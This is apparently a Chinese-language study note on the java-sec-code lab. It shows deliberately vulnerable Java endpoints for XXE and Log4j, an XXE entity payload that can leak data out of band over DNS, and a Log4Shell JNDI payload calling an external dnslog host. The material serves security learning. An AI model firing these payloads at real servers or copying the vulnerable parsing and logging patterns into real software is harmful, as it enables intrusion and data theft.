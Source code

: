 过滤代码在window下可以使用 `/`绕过

### xxe

#### 外部实体引用

```java
    @PostMapping("/xmlReader/vuln")
    public String xmlReaderVuln(HttpServletRequest request) {
        try {
            String body = WebUtils.getRequestBody(request);
            logger.info(body);
            XMLReader xmlReader = XMLReaderFactory.createXMLReader();
            xmlReader.parse(new InputSource(new StringReader(body)));  // parse xml
            return "xmlReader xxe vuln code";
        } catch (Exception e) {
            logger.error(e.toString());
            return EXCEPT;
        }
    }
```

无回显但是可以dns外带

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE input [
<!ELEMENT xmen ANY>
<!ENTITY xxe SYSTEM "http://">]>
<input><xmen>&xxe;</xmen></input>
```

### Log4j

```java
    /**
     * http://localhost:8080/log4j?token=${jndi:ldap://wffsr5.dnslog.cn:9999}
     * Default: error/fatal/off
     * Fix: Update log4j to lastet version.
     * @param token token
     */
@GetMapping("/log4j")
public String log4j(String token) {
    if(token.equals("java-sec-code")) {
        return "java sec code";
    } else {
        logger.error(token);
        return "error";
    }
}
```

验证payload

```
${jndi:ldap://wffsr5.dnslog.cn:9999}
```
